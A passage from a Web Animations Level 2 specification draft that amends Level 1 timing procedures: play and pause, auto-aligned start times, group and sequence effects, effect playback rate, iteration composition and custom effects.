   If a user agent determines that *animation* is immediately ready, it may schedule the above task as a microtask such that it runs at the next microtask checkpoint, but it must *not* perform the task synchronously.

   > **Note:** The above requirement to run the pending play task asynchronously ensures that code such as the following behaves consistently between implementations:
   >
   > > **Example:** ```javascript
   > > animation.play();
   > > animation.ready.then(
   > >   () => { console.log('Playback commenced'); },
   > >   () => { console.log('Playback was canceled'); }
   > > );
   > > // Suppose some condition requires playback to be canceled...
   > > animation.cancel();
   > > // "Playback was canceled" will be printed to the console.
   > > ```
   >
   > In the above code, were the pending play task run synchronously, the current ready promise would not be rejected.
13. Run the procedure to update an animation’s finished state for *animation* with the *did seek* flag set to false, and the *synchronously notify* flag set to false.

> **Issue:** The procedure to play an animation needs to include scheduling a task for updating custom effects.

###### 2.3.7.1. Auto-aligning the start time {#web-animations-2:auto-aligning-start-time}

When attached to a non-monotonic timeline, the start time of the animation may be layout dependent. In this case, we defer calculation of the start time until the timeline has been updated post layout. When updating timeline current time, the start time of any attached animation is conditionally updated. The procedure for **calculating an auto-aligned start time** is as follows:

1. If the *auto-align start time* flag is false, abort this procedure.
2. If the timeline is inactive, abort this procedure.
3. If play state is idle, abort this procedure.
4. If play state is paused, and hold time is resolved, abort this procedure.
5. Let *start offset* be the resolved timeline time corresponding to the start of the animation attachment range. In the case of view timelines, it requires a calculation based on the proportion of the cover range.
6. Let *end offset* be the resolved timeline time corresponding to the end of the animation attachment range. In the case of view timelines, it requires a calculation based on the proportion of the cover range.
7. Set start time to *start offset* if effective playback rate ≥ 0, and *end offset* otherwise.
8. Apply any pending playback rate on *animation*.
9. Clear hold time.

##### 2.3.8. Pausing an animation {#web-animations-2:pausing-an-animation-section}

The procedure to pause an animation needs to refer not only to the associated effect but also any descendants of the associated effect.

Likewise, the procedure to pause an animation needs to include scheduling a task for updating custom effects.

Update the constraints for setting the seek time to only apply when using a monotonic timeline. A scroll-driven animation needs to defer setting the hold time until the animation range has been computed.

Replace:

> 1. Let *seek time* be a time value that is initially unresolved.
> 2. Let *has finite timeline* be true if *animation* has an associated timeline that is not monotonically increasing.
> 3. If the *animation*’s current time is unresolved, perform the steps according to the first matching condition below:
>
>    **If *animation*’s playback rate is ≥ 0,**
>
>    : Set *seek time* to zero.
>
>    **Otherwise,**
>
>    : **If associated effect end for *animation* is positive infinity,**
>
>   : throw an "`InvalidStateError`" `DOMException` and abort these steps.
>
>   **Otherwise,**
>
>   : Set *seek time* to *animation*’s associated effect end.
> 4. If *seek time* is resolved,
>
>    **If *has finite timeline* is true,**
>
>    : Set *animation*’s start time to *seek time*.
>
>    **Otherwise,**
>
>    : Set *animation*’s hold time to *seek time*.

with:

> 1. Let *has finite timeline* be true if *animation* has an associated timeline that is not monotonically increasing.
> 2. If the *animation*’s current time is unresolved and *has finite timeline* is false, perform the steps according to the first matching condition below:
>
>    **If *animation*’s playback rate is ≥ 0,**
>
>    : Set hold time to zero.
>
>    **Otherwise,**
>
>    : **If associated effect end for *animation* is positive infinity,**
>
>   : throw an "`InvalidStateError`" `DOMException` and abort these steps.
>
>   **Otherwise,**
>
>   : Set hold time to *animation*’s associated effect end.
> 3. If *has finite timeline* is true, and the *animation*’s current time is unresolved
>
>   - Set the *auto align start time* flag to true.

Replace:

> Schedule a task to be executed at the first possible moment where both of the following conditions are true:
>
> - the user agent has performed any processing necessary to suspend the playback of animation’s associated effect, if any.
> - the animation is associated with a timeline that is not inactive.

With:

> Schedule a task to be executed at the first possible moment where all of the following conditions are true:
>
> - the user agent has performed any processing necessary to suspend the playback of animation’s associated effect, if any.
> - the animation is associated with a timeline that is not inactive.
> - the animation has a resolved hold time or start time.

> **Note:** A start time is still required for a pause-pending animation if the *auto-align start time* flag is true to properly align to the animation range. The start time is set following the procedure for calculating an auto-aligned start time.

##### 2.3.9. Canceling an animation {#web-animations-2:canceling-an-animation-section}

Append the final step:    Queue a task to call any custom effects associated with inclusive descendants of *animation*’s associated effect with an unresolved iteration progress.  The procedures for calling custom effects need to be reworked. Currently they probably involve calling too often for changes that could be coalesced.

##### 2.3.10. Speed control {#web-animations-2:speed-control}

Add the following sentence:

> Note that animation effects also have a playback rate associated with them that behaves differently to that defined here.

##### 2.3.11. Calculating the overall progress of an animation {#web-animations-2:the-overall-progress-of-an-animation}

An animation’s **overallProgress** is the ratio of its current time to its associated effect end.

The overallProgress of an animation, *animation*, is calculated as follows:

**If *any* of the following are true:   *animation* does not have an associated effect, or  *animation*’s current time is an unresolved time value,**

: *animation*’s overallProgress is null.

**If *animation*’s associated effect end is zero,**

: **If *animation*’s current time is negative,**

  : *animation*’s overallProgress is zero.

  **Otherwise,**

  : *animation*’s overallProgress is one.

**If *animation*’s associated effect end is infinite,**

: *animation*’s overallProgress is zero.

**Otherwise,**

: > `overallProgress = min(max(current time / animation’s associated effect end, 0), 1)`

#### 2.4. Animation effects {#web-animations-2:animation-effects}

Adds the following text:

> The associated effect of an animation is said to be **directly associated** with that animation.
>
> Animation effects can be combined together into a hierarchy using group effects (see [§ 2.9 Grouping and synchronization](#web-animations-2:grouping-and-synchronization)). Only the root animation effect of such a hierarchy can be directly associated with an animation. If an animation effect that has a parent group is designated as the associated effect of an animation, the animation effect is removed from its parent group before being associated with the animation.
>
> An animation effect is **associated with an animation** if it is directly associated with an animation or if it has an ancestor group effect that is directly associated with an animation.

##### 2.4.1. Types of animation effects {#web-animations-2:types-of-animation-effects}

This specification defines two types of animation effects:

- keyframe effects, and
- group effects.

##### 2.4.2. The active interval {#web-animations-2:the-active-interval}

In this level of the specification the lower bound of the active interval is defined as:

> The lower bound of the active interval is determined by the start time of the animation effect but may be shifted by a start delay on the animation effect.

The subsequent diagram should also refer to the *animation effect start time* as opposed to the *animation start time*.

Finally, the description of the end delay is updated to:

> An end delay may also be specified but is primarily only of use when sequencing animations such as by using a sequence effect.

The normative description is updated as follows:

> The lower bound of the active interval is defined by the combination of the animation effect’s start time and start delay.
>
> An animation effect’s **start time** is the moment at which the parent group, if any, has scheduled the animation effect to begin. It is expressed in inherited time.
>
> In most cases, including the case when the animation effect has no parent group, the start time is zero. The singular exception is sequence effects which set the start times of their children as described in [§ 2.9.4.1 The start time of children of a sequence effect](#web-animations-2:the-start-time-of-children-of-a-sequence-effect).
>
> In addition to the start time, an animation effect also has a **start delay** which is an offset from the start time.
>
> Unlike the start time which is determined by the parent group, the start delay is a property of the animation effect itself.
>
> The lower bound of the active interval of an animation effect, expressed in inherited time space, is the sum of the start time and the start delay.
>
> These definitions are incorporated in the calculation of the local time (see [§ 2.4.3 Local time and inherited time](#web-animations-2:local-time-and-inherited-time)) and active time.

And finally regarding the definition of the end time:

> The **end time** of an animation effect is the result of evaluating `max(start time + start delay + active duration + end delay, 0)`.

##### 2.4.3. Local time and inherited time {#web-animations-2:local-time-and-inherited-time}

This section is added.

In Web Animations all times are relative to some point of reference. These different points of reference produce different *time spaces*.

This can be compared to coordinate spaces as used in computer graphics. The zero time of a time space is analogous to the origin of a coordinate space.

Just as with coordinate spaces, time spaces can also be nested. Group effects typically perform some transformations on the time values they receive from their parent or animation before passing on the transformed time values to their children. Child animation effects then operate *within* that transformed time space.

Children take the transformed time values from their parent—called the inherited time—and add their start time to establish their own local time space as illustrated below.


Inherited time and local time.  At time *t*, the inherited time is 2.5.  For animation effect (a) which has a start time of 1, the local time is 1.5.  For animation effect (b) which has a start time of 1 and a start delay of 1, the local time is also 1.5 since local time is based on an animation effect’s start time only, and not on its start delay.

For an animation effect, the **inherited time** at a given moment is based on the first matching condition from the following:

**If the animation effect has a parent group,**

: the inherited time is the parent group’s current transformed time.

**If the animation effect is directly associated with an animation,**

: the inherited time is the current time of the animation.

**Otherwise,**

: the inherited time is unresolved.

The **local time** of an animation effect is the animation effect’s inherited time minus its start time. If the inherited time is unresolved then the local time is also unresolved.

##### 2.4.4. Animation effect phases and states {#web-animations-2:animation-effect-phases-and-states}

*This section is non-normative*

The non-normative description of the in play state includes the following description;

> This occurs when the animation effect *and all its ancestors* are in the active phase. Animation effects only “move” when they are in play.
>
> It is possible for an animation effect to be in the active phase but not in play. For example, if an animation effect has a parent group that causes the animation effect’s active interval to be clipped and both parent and child apply the same fill mode, the child animation effect may be effectively be snapshotted within the active phase despite no longer being in play.

Likewise for current

> This will be the case if the animation effect is in play or in its before phase, *or* it has an ancestor for which this is true thereby opening up the possibility that this animation effect might play again (e.g. due to repeating).

The normative definition of **in play** includes the following condition:

> 1. the animation effect has a parent group that is in play or else the animation effect is directly associated with an animation that is not finished.

In place of:

> 1. the animation effect is associated with an animation that is not finished.

The normative definition of **current** adds the following condition:

> - the animation effect has a parent group and the parent group is current.

Add the following definitions to the list used in determining the phase of an animation effect.

****at timeline boundary****

: Determined based on the first matching condition:

  **If the minimum timeline time matches the timeline current time:**

  : Return true

  **If the maximum timeline time matches the timeline current time:**

  : Return true

  **Otherwise**

  : Return false

  > **Note:** The intent of this procedure for use in phase determination is to avoid the need for fill-mode when using a scroll-timeline where the active timeline range spans the full scroll range, or a view-timeline where the subject is aligned with the start or end of the source scroll container. This algorithm is not intended to handle the general case, but rather avoids complications, such as when a view timeline subject that is not aligned with either bound of the scroll container being a candidate when the magnitude of the playbackRate > 1. The algorithm also doesn’t handle paused animations. A more general solution is potentially feasible.

Replace:

> An animation effect is in the before phase if the animation effect’s local time is not unresolved and *either* of the following conditions are met:
>
> 1. the local time is less than the before-active boundary time, *or*
> 2. the animation direction is "backwards" and the local time is equal to the before-active boundary time.

with:

> An animation effect is in the before phase if the animation effect’s local time is not unresolved and *either* of the following conditions are met:
>
> 1. the local time is less than the before-active boundary time, *or*
> 2. the animation direction is "backwards" and the local time is equal to the before-active boundary time and not at timeline boundary.

Replace:

> An animation effect is in the after phase if the animation effect’s local time is not unresolved and *either* of the following conditions are met:
>
> 1. the local time is greater than the active-after boundary time, *or*
> 2. the animation direction is "forwards" and the local time is equal to the active-after boundary time.

with:

> An animation effect is in the after phase if the animation effect’s local time is not unresolved and *either* of the following conditions are met:
>
> 1. the local time is greater than the active-after boundary time, *or*
> 2. the animation direction is "forwards" and the local time is equal to the active-after boundary time and not at timeline boundary.

##### 2.4.5. Fill modes {#web-animations-2:fill-modes}

*This section is non-normative*

The description of the forwards fill mode is updated from:

> When the animation effect is in the after phase, …

to:

> When the animation effect is in the after phase, or when the animation effect is in the active phase but an ancestor is in its after phase, …

The description of the backwards fill mode is updated from:

> When the animation effect is in the before phase, …

to:

> When the animation effect is in the before phase, or when the animation effect is in the active phase but an ancestor is in its before phase, …

The description of the both fill mode is updated from:

> When the animation effect …

to:

> When the animation effect or an ancestor …

(twice).

> **Issue:** Currently timing functions that generate results outside the range [0, 1] will behave unexpectedly when applied to group effects, as children will increase iterations or enter into fill mode rather than continuing to extrapolate along their defined behavior (which is what they would do if the timing function applied to them directly).
>
> To fix this it is possible we will wish to introduce ‘overflow’ fill modes that respond to time values larger than or smaller than the active time range by extrapolating rather than filling.
>
> See [section 15 (Overflowing fill) of minuted discussion from Tokyo 2013 F2F](https://lists.w3.org/Archives/Public/public-fx/2013AprJun/0184.html).

#### 2.5. Repeating {#web-animations-2:repeating}

##### 2.5.1. Iteration intervals {#web-animations-2:iteration-intervals}

After:

> The length of a single iteration is called the iteration duration.

Add:

> The initial iteration duration of an animation effect is simply its intrinsic iteration duration. The **intrinsic iteration duration** is calculated from the first matching condition from below:
>
> **If the animation effect is a group effect,**
>
> : Follow the procedure in [§ 2.9.3 The intrinsic iteration duration of a group effect](#web-animations-2:the-intrinsic-iteration-duration-of-a-group-effect)
>
> **If the animation effect is a sequence effect,**
>
> : Follow the procedure in [§ 2.9.4.2 The intrinsic iteration duration of a sequence effect](#web-animations-2:the-intrinsic-iteration-duration-of-a-sequence-effect)
>
> **If timeline duration is unresolved or iteration count is zero,**
>
> : Return 0
>
> **Otherwise**
>
> : Return `(100% - start delay - end delay) / iteration count`
>
>   > **Note:** Presently start and end delays are zero until such time as percentage based delays are supported.
>
> The iteration duration of an animation effect may be set by the author to represent a value other than the intrinsic iteration duration.

##### 2.5.2. Iteration time space {#web-animations-2:iteration-time-space}

*This section is non-normative*

The first few paragraphs of this section are replaced with:

> We have already encountered different time spaces in describing local time and inherited time (see [§ 2.4.3 Local time and inherited time](#web-animations-2:local-time-and-inherited-time)). Repetition introduces yet another time space: the iteration time space.

##### 2.5.3. Interval timing {#web-animations-2:interval-timing}

*This section is non-normative*

The description is updated as follows:

> In the examples below, for the repeated effect, at local time 1s, the iteration time is 0. For the sequenced effects, at inherited time 1s, only effect B will be in play; there is no overlap.

And likewise the figure is updated as follows:


Illustration of end-point exclusive timing. For both repeated and sequenced animation effects there is no overlap at the boundaries between intervals.

#### 2.6. Animation effect speed control {#web-animations-2:animation-effect-speed-control}

(This section is added.)

Like animations, animation effects also have a **playback rate** parameter. The playback rate of an animation effect is a finite real number that acts as a multiplier when calculating the animation effect’s transformed time from its local time.

The effect of setting the playback rate of an animation effect differs from the setting the playback rate on an animation. Its behavior is defined in the timing calculations given in [§ 2.7 Core animation effect calculations](#web-animations-2:core-animation-effect-calculations).

*This section is non-normative*

In summary, the behavior of the playback rate of an animation effect is as follows:

- The playback rate is applied only to the active interval of an animation effect and not to the time while it is delayed or filling.
- Setting a negative playback rate on an animation effect causes the animation effect to begin at the end of its active interval. This differs from the playback rate on an animation. Setting a playback rate on an animation to a negative value at a moment before the animation’s associated effect has begun, will result in the associated effect never playing.
- Setting the playback rate of an animation effect affects the calculated value of the active duration (see [§ 2.7.2 Calculating the active duration](#web-animations-2:calculating-the-active-duration)).
- Changing the playback rate of an animation effect whose local time is within its active interval will cause it to jump. This is because the active duration will be updated but the local time will not.

  Furthermore, if other animation effects depend on the animation effect’s active duration, such as sibling animation effect in a sequence effect, they too may jump as a result of setting the animation effect’s playback rate.

  For runtime speed control the playback rate of the animation should be used.

#### 2.7. Core animation effect calculations {#web-animations-2:core-animation-effect-calculations}

##### 2.7.1. Overview {#web-animations-2:animation-effect-calculations-overview}

*This section is non-normative*

Update description from:

> At the core of the Web Animations timing model is the process that takes a local time value and converts it to an iteration progress.

to:

> At the core of the Web Animations timing model is the process that takes an inherited time value and converts it to an iteration progress.

Update diagram to show animation effect playback rate:


Calculation of the active duration is based on multiplying the iteration duration by the iteration count and then dividing by the playback rate.

Update:

> Having established the active duration, the process for transforming an animation effect’s local time into its transformed progress (iteration progress) is illustrated below.

to:

> Having established the active duration, the process for transforming an animation effect’s inherited time into its transformed progress (iteration progress) is illustrated below.

Update the time calculations diagram as follows:


An overview of timing model calculations.  (1) The inherited time is converted into a local time by incorporating the start time.  (2) The local time is converted into an active time by incorporating the start delay.  (3) The active time is divided by the iteration duration incorporating also the iteration start property and the playback rate property to produce the overall progress.  (4) The overall progress time is then converted to an offset within a single iteration: the simple iteration progress.  (5) The simple iteration progress is converted into a directed progress by incorporating the playback direction.  (6) Finally, a timing function is applied to the directed progress to produce the transformed progress.

Update:

> The first step, calculating the local time is described in Local time.

to:

> The first step, calculating the local time is described in [§ 2.4.3 Local time and inherited time](#web-animations-2:local-time-and-inherited-time).

##### 2.7.2. Calculating the active duration {#web-animations-2:calculating-the-active-duration}

Updated to:

> In order to calculate the active duration we first define the repeated duration as follows:
>
> > **repeated duration** = `iteration duration × iteration count`
> >
> > If either the iteration duration or iteration count are zero, the repeated duration is zero.
> >
> > > **Note:** This clarification is needed since the result of infinity multiplied by zero is undefined according to IEEE 754-2008.
>
> The **active duration** is calculated according to the following steps:
>
> 1. If the playback rate is zero, return `Infinity`.
> 2. Otherwise, return `repeated duration / abs(playback rate)`.

##### 2.7.3. Transforming the local time {#web-animations-2:transforming-the-local-time}

###### 2.7.3.1. Calculating the active time {#web-animations-2:calculating-the-active-time}

Update the qualification on the definition of the active time to include reference to the parent group:

> However, it is only defined when the animation effect should produce an output and hence depends on its fill mode and phase as well as the phase of its parent group, if any, as follows,

Update the definition to include the additional steps to for each phase:

> **If the animation effect is in the before phase,**
>
> : The result depends on the first matching condition from the following,
>
>   **If the animation effect has a parent group and that parent group is in the after phase,**
>
>   : Return an unresolved time value.
>
>   …
>
> **If the animation effect is in the active phase,**
>
> : The result depends on the first matching condition from the following,
>
>   **If the animation effect has a parent group and that parent group is in the before phase, and the fill mode of this animation effect is none or forwards,**
>
>   : Return an unresolved time value.
>
>   **If the animation effect has a parent group and that parent group is in the after phase, and the fill mode of this animation effect is none or backwards,**
>
>   : Return an unresolved time value.
>
>   **Otherwise,**
>
>   : Return the result of evaluating `local time - start delay`.
>
> **If the animation effect is in the after phase,**
>
> : The result depends on the first matching condition from the following,
>
>   **If the animation effect has a parent group and that parent group is in the before phase,**
>
>   : Return an unresolved time value.
>
>   …
>
> **Otherwise (the local time is unresolved),**
>
> : Return an unresolved time value.

###### 2.7.3.2. Calculating the overall progress {#web-animations-2:calculating-the-overall-progress}

In the definition of the overall progress update the “Otherwise” branch of the definition of the *initial progress* as:

> **Otherwise,**
>
> : Calculate the *overall progress* following the first matching condition from below:
>
>   **If the playback rate is less than zero,**
>
>   : Let *overall progress* be `(active time - active duration) × playback rate / iteration duration`.
>
>   **If the playback rate is zero,**
>
>   : Let *overall progress* be zero.
>
>   **Otherwise,**
>
>   : Let *overall progress* be `(active time × playback rate) / iteration duration`.

#### 2.8. Time transformations {#web-animations-2:time-transformations}

> **Issue:** Currently, the set of timing functions allowed on a group effect is not restricted. This has raised concern about complexity of implementation and also complexity of behavior with regards to fill modes. As a result, allowing the full set of timing functions on group effects is considered **at risk**.
>
> Alternatives are to either restrict timing functions on group effects to the linear timing function or to a set of “simple” timing functions that have properties that alleviate some of the concerns with the more complex timing functions.
>
> See [section 2 of the discussion from August 2013](https://lists.w3.org/Archives/Public/public-fx/2013JulSep/0076.html).

##### 2.8.1. Calculating the transformed progress {#web-animations-2:calculating-the-transformed-progress}

Replace the second step as the calculation of the before flag (to accommodate the effect playback rate):

> 1. If *either* the *current direction* is forwards or the playback rate ≥ 0 (but *not* when both conditions are true), let *going forwards* be true, otherwise it is false.

##### 2.8.2. Calculating the transformed time {#web-animations-2:calculating-the-transformed-time}

(This section is added.)

The **transformed time** of an animation effect is simply the transformed progress multiplied by the iteration duration.

If the transformed progress is unresolved, then the transformed time is also unresolved.

If the transformed progress is zero and the iteration duration is infinity, then the transformed time is zero.

#### 2.9. Grouping and synchronization {#web-animations-2:grouping-and-synchronization}

*This section is non-normative*

While it is possible to set the timing properties of animation effects individually, it is often useful to synchronize animation effects so that they share common timing properties and maintain their temporal relationship. This is achieved using an group effect.

A simple example is illustrated below.


Using groups to share common timing properties.  (a) Shows setting a delay of 5 seconds on individual animations.  (b) Produces the same effect by setting the delay on the group.

When a group effect is directly associated with an animation, the animation effect associated with the group effect can be seeked, paused, and stopped as a unit.

A **group effect** is a type of animation effect that contains an ordered sequence of zero or more animation effects known as **child effects**.

At a given moment, an animation effect may be a child effect of at most one group effect known as the **parent group**. The parent group cannot be the same animation effect as the child effect itself.

By nesting group effects it is possible to create hierarchical tree structures. The following terms are used to describe the parts and properties of such structures and are defined in [DOM]:

- **[tree order](https://www.w3.org/TR/dom/#concept-tree-order)**
- **[root](https://www.w3.org/TR/dom/#concept-tree-root)**
- **[ancestor](https://www.w3.org/TR/dom/#concept-tree-ancestor)**
- **[descendant](https://www.w3.org/TR/dom/#concept-tree-descendant)**
- **[inclusive ancestor](https://www.w3.org/TR/dom/#concept-tree-inclusive-ancestor)**
- **[inclusive descendant](https://www.w3.org/TR/dom/#concept-tree-inclusive-descendant)**
- **[next sibling](https://www.w3.org/TR/dom/#concept-tree-next-sibling)**
- **[previous sibling](https://www.w3.org/TR/dom/#concept-tree-previous-sibling)**
- **[first child](https://www.w3.org/TR/dom/#concept-tree-first-child)**
- **[last child](https://www.w3.org/TR/dom/#concept-tree-last-child)**

> **Note:** in applying these definitions to animation effects, the term *parent* refers exclusively to a parent group and does *not* include the animation which with an animation effect may be directly associated despite the fact that conceptually the animation acts as a parent time source.

The temporal relationship between a child effect and its parent group is incorporated in the definition of inherited time (see [§ 2.4.3 Local time and inherited time](#web-animations-2:local-time-and-inherited-time)).

##### 2.9.1. Relationship of group time to child time {#web-animations-2:relationship-of-group-time-to-child-time}

*This section is non-normative*

The timing of the children of a group effect is based on the timing of the group. Specifically, times for the children are based on the parent’s transformed time. With regards to repetition, this means the children operate *inside* an iteration of the parent.

For example, if a group effect has an iteration count of 2, then the children of the group will all play twice since they effectively play *inside* the group’s iterations.


Since children of a group effect base their timing on the group’s transformed time, when the group repeats, the children play again.

Note that even in this case, the child animation effects still have only *one* active interval. However, as a result of the parent’s timing, the active interval is played twice.

If an iteration count is specified for the children of a group as well as for the group itself, the effect is as if the iteration count of the group was multiplied with the iteration count of the children.


Specifying an iteration count of 2 on a group effect and an iteration count of 3 on one of its children results in that child playing 6 times.

A further result of the children of a group effect basing their timing on the group’s transformed time is that they cannot animate outside of the group’s active interval. This is because the transformed time of a group will not change outside its active interval. This allows groups to *clip* the playback of their children.


In the first instance, an animation effect has a negative delay and an infinite iteration count.  However, when a similar animation effect is placed inside a group effect with a specified iteration duration it has the effect of clipping the child animation effect’s active interval.

Some further consequences of group effect children basing their timing on their parent group’s transformed time are:

- Setting the playback rate of a group effect will speed up or slow down all children.
- Changing the playback direction of a group effect will change the direction of all children.
- Applying a timing function to a group effect will affect the progress of all children.

##### 2.9.2. The start time of children of a group effect {#web-animations-2:the-start-time-of-children-of-a-group-effect}

The start time of a child effect of a group effect is zero.

Note that specific types of group effects may override this definition to provide other kinds of synchronization behavior.

##### 2.9.3. The intrinsic iteration duration of a group effect {#web-animations-2:the-intrinsic-iteration-duration-of-a-group-effect}

The intrinsic iteration duration of a group effect is based on the time when the last child effect completes its active interval and depends on the number of child effects as follows.

**If the group has no child effects,**

: the intrinsic iteration duration is zero.

**Otherwise,**

: 1. Let *maximum end time* be the maximum value after calculating the end time of each child effect in the group. The end time may be expressed as a time or a percentage (in the case of a progress-based timeline). In the event of mixed time and percentage end times, the largest time based value equates to 100% for the purpose of time scaling.
  2. The intrinsic iteration duration is the result of evaluating `max(0, maximum end time)`.

This definition of the intrinsic iteration duration may be overridden by specific types of group effects.

##### 2.9.4. Sequence effects {#web-animations-2:sequence-effects}

*This section is non-normative*

Specific types of group effects can be used to provide different kinds of synchronization behavior for their children. This specification defines one additional type of group effect: a sequence effect. Sequence effects arrange the start times of their children so that they run one at a time, in turn.

Compare the two arrangements illustrated below:


Group effects and sequence effects.  (a) is a regular group effect where all the children run simultaneously.  (b) is a sequence effect where the children run in turn.

Since group effects can also contain other group effects, complex synchronization is possible by combining different types of groups as illustrated below.


A sequence effect that contains a regular group effect as a child.  The group effect waits for the previous child of the sequence effect to finish, and then the children of the group effect play simultaneously. After they have finished the next child of the sequence effect plays.

A **sequence effect** is a type of group effect that schedules its child effects such that they play in turn following their order in the group. This sequencing is achieved by adjusting the start time of each child effect in the group.

###### 2.9.4.1. The start time of children of a sequence effect {#web-animations-2:the-start-time-of-children-of-a-sequence-effect}

The start time of a child effect of a sequence effect is the end time of the child’s previous sibling. If the child has no previous sibling the start time is zero.

> **Note:** When the active duration is positive infinity the behavior for calculating the end time of an animation effect and the start time of subsequent children follows the usual behavior defined by IEEE 754-2008. As a result, if any of the children of a sequence effect has an infinite active duration, any children that occur later in the sequence will not play.
>
> Similarly, the above definition does not restrict start times to positive values and hence some children may not play due to a negative start delay on children that occur earlier in the group since their active interval may end before the group’s start time.

*This section is non-normative*

Because the start of the active interval is based on the sum of an animation effect’s start time *and* start delay, the active intervals of children of a sequence effect need not run in strict sequence but can be shifted back and forth by using the start delay as shown in the following diagram.


Example of using the start delay on children of a sequence effect to shift their timing so that they overlap (a negative delay) or are spaced apart (a positive delay).

A negative start delay can be used to cause the active interval of two children to overlap. Note that the start delay affects the start time of subsequent children in the group.

###### 2.9.4.2. The intrinsic iteration duration of a sequence effect {#web-animations-2:the-intrinsic-iteration-duration-of-a-sequence-effect}

The intrinsic iteration duration of a sequence effect is equivalent to the start time of a hypothetical child effect appended to the group’s children calculated according to the definition in [§ 2.9.4.1 The start time of children of a sequence effect](#web-animations-2:the-start-time-of-children-of-a-sequence-effect) unless that produces a negative value, in which case the intrinsic iteration duration is zero.

As a result, if the sequence effect has no child effects the intrinsic iteration duration will be zero.

### 3. Animation model {#web-animations-2:animation-model}

#### 3.1. Animation types {#web-animations-2:animation-types}

##### 3.1.1. Not animatable {#web-animations-2:not-animatable-section}

Update the description of an effect that targets a non-animated property as:

> An animation effect that targets a property that is not animatable will still exhibit the usual behavior for an animation effect such as occupying time in a sequence effect and delaying the fulfillment of an animation’s current finished promise.

#### 3.2. Keyframe Effects {#web-animations-2:keyframe-effects}

##### 3.2.1. The effect value of a keyframe effect {#web-animations-2:the-effect-value-of-a-keyframe-animation-effect}

> **Issue:** The implicit keyframe generation steps in Web Animations Level 1 need to be reconciled with the behavior defined for [named timeline range keyframe selectors](#scroll-animations-1:named-range-keyframes) in Scroll Animations. Scroll Animations currently overrides those steps but that overridden behavior should be incorporated directly in this algorithm. See [issue 14309](https://github.com/w3c/csswg-drafts/issues/14309).

The procedure for computing the effect value of a single property referenced by a keyframe effect as one of its target properties, for a given *iteration progress*, *current iteration* and *underlying value* is amended by inserting the following step after the step to apply the keyframe effect composite mode.

1. For each *keyframe* in *interval endpoints*:

  1. (As in web-animations-1).
  2. If this keyframe effect has an iteration composite operation of accumulate, apply the following step *current iteration* times:

    - replace the property value of *target property* on *keyframe* with the result of combining the property value on the final keyframe in *property-specific keyframes* (*V*a) with the property value on *keyframe* (*V*b) using the accumulation procedure defined for *target property*.

     > **Note:** The order of arguments here is important. In the case where the animation type of the target property does not define a procedure for accumulation or addition, the default definition for these procedures result in *V*b being returned. When performing iteration composition on properties that do not support accumulation, the result should be the initial property value of *target property* on *keyframe*, hence we make this *V*b in the above step.

#### 3.3. Combining effects {#web-animations-2:combining-effects}

##### 3.3.1. The effect stack {#web-animations-2:the-effect-stack}

The procedure for sorting effects appends the following step:

> 1. Sort *A* and *B* in tree order. (By this point, *A* and *B* must have the same animation since otherwise the order would have been resolved in the previous step.)

> **Issue:** The "associated animation of an animation effect" definition used when sorting animation effects needs to be revised to use the associated with an animation definition introduced in this level of the specification so that it correctly handles group effects.

#### 3.4. Effect accumulation {#web-animations-2:effect-accumulation-section}

Similar to the compositing performed between effect values (see [Web Animations § 5.4.4 Effect composition](#web-animations-1:effect-composition)), the **iteration composite operation** determines how values are combined between successive iterations of the same keyframe effect.

This specification defines two iteration composite operations as follows:

****replace****

: Each successive iteration is calculated independently of previous iterations.

****accumulate****

: Successive iterations of the animation are accumulated with the final value of the previous iteration.

  The application of the iteration composite operation is incorporated in the calculation of the effect value in [§ 3.2.1 The effect value of a keyframe effect](#web-animations-2:the-effect-value-of-a-keyframe-animation-effect).

3.5. Custom effects (This section is added.)  This whole feature needs to be revisited. The current thinking is that rather than having custom effects, we should simply have an `onupdate` callback on each animation effect. That would allow, for example, augmenting an existing effect with a function that performs logging or triggers additional actions at certain times. With the current arrangement, doing this would require adding a parent group just to achieve this.  *This section is non-normative* In some situations the animation effects provided by Web Animations may be insufficient. For example, the animation effects defined here are only able to target certain CSS properties. They are unable, therefore, to modify the [`currentScale`](https://www.w3.org/TR/SVG11/struct.html#__svg__SVGSVGElement__currentScale) property of an SVG element to smoothly zoom the viewport without affecting the document content. In such cases, where the provided animation effects do not provide needed functionality, an effect defined by script may be used. Such custom effects receive an iteration progress and current iteration from the timing model and are responsible for producing an effect corresponding to the specified time. Using an effect defined in script it is possible to animate not only otherwise un-animatable attributes and properties, but potentially anything that is accessible via script, including even producing audio or creating vibrations. For example, using a custom effect that draws to a `canvas` element, it is possible to produce a complex animated effect featuring patterns that may be difficult to create using CSS or SVG. Compared to using [Timing control for script-based animations](https://www.w3.org/TR/animation-timing/), this approach ensures the animation is frame-rate independent and can be paused, reversed, eased with timing effects, accelerated, synchronized with other animations, and be controlled in the same manner as any other Web Animations animation without any additional programming.  A **custom effect** is an author-defined programming callback that is passed timing information as part of the update animations and send events procedure.  It needs to be called whenever timing properties are updated too, right?  3.5.1. Sampling custom effects Custom effects are called for each referencing animation effect when the update animations and send events procedure is performed (henceforth referred to simple as an *update*) based on the following criteria.   If, on the previous update, the animation effect referencing the custom effect:   was in effect, and  referenced this same custom effect, and  had a different target element  Call the callback passing an unresolved iteration progress and the target element from the previous update as parameters to the callback.  Call the callback for the current target element based on the first matching condition from the following:  If the animation effect referencing the custom effect is not in effect but was in effect in the previous update,  Call the callback passing an unresolved iteration progress and the current target element as parameters to the callback. Otherwise, if the animation effect referencing the custom effect:    **is in effect, and**  **was not in effect in the previous update, or was in effect but with a different iteration progress or current iteration,**   Call the callback passing with the referencing animation effect’s current iteration progress and target element as parameters to the callback.     There may be use cases where an action needs to be triggered at a specific point in an animation tree. In many cases this can be achieved by inserting a custom effect with a step-start easing that spans the period during which the action should be triggered. However, this can impose additional layout requirements on the content which might be cumbersome to accommodate. Some alternatives under consideration:   Additional calling conditions could be defined to accommodate zero-width custom effects. For example, it could be required that the callback be called if (given infinite precision) there was a time between the previous and current update times that aligned with the custom effect.  Instead of adding special calling conditions to custom effects, a new type of animation effect, Trigger, could be introduced. The trigger would only ever act as a zero-width custom effect as described above, its constructor would take a callback function, but not require a target or timing. It could also specify other calling conventions, for example whether it should only trigger in a specific playback direction.    3.5.2. Execution order of custom effects Since custom effects, unlike animation effects, are not limited to a single target property, the steps for assessing their order of execution differs from animation effects.f Custom effects are executed after all animation effects have completed and applied their result to their targets (see Applying the composited result).  Need to define this more precisely. Are styles flushed? Presumably they are. Can we suspend reflow for the duration of executing the script-based animation effects and just do it once afterwards? Within the set of custom effects, the order of execution is the same as that defined for animation effects in [§ 3.3.1 The effect stack](#web-animations-2:the-effect-stack). Items 